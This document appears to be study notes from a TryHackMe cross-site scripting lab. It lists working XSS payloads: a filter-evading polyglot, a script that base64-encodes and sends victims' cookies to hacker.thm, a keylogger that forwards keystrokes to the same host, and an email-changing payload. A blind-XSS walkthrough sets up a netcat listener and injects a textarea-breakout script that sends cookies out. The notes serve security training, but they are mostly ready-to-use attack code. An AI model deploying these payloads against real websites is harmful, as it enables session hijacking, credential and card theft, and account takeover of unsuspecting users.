 ## Polyglotte XSS 


```jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e ```





## Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:


``` <script>alert('XSS');</script> ```


## Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


```<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>```


## Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.


```<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>```


## Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:


```<script>user.changeEmail('attacker@hacker.thm');</script>```

## Blind XSS


Using the AttackBox, let’s set up a listening server using ```Netcat```. If we want to listen on port 9001, we issue the command ```nc -l -p 9001```. The -l option indicates that we want to use Netcat in listen mode, while the``` -p``` option is used to specify the port number. To avoid the resolution of hostnames via DNS, we can add ```-n```; moreover, to discover any errors, running Netcat in verbose mode by adding the -v option is recommended. The final command becomes ``` nc -n -l -v -p 9001 ```, equivalent to nc -nlvp 9001.

```bash
nc
user@machine$ nc -nlvp 9001
Listening on [0.0.0.0] (family 0, port 9001)

```
Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.
```
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
Let’s break down the payload:

The ```</textarea>``` tag closes the text area field.
The ``` <script>``` tag opens an area for us to write JavaScript.
The ```fetch()``` command makes an HTTP request.
```URL_OR_IP``` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
```PORT_NUMBER``` is the port number you are using to listen for connections on the AttackBox.
```?cookie=``` is the query string containing the victim’s cookies.
```btoa()``` command base64 encodes the victim’s cookies.
```document.cookie``` accesses the victim’s cookies for the Acme IT Support Website.
```</script>```closes the JavaScript code block.

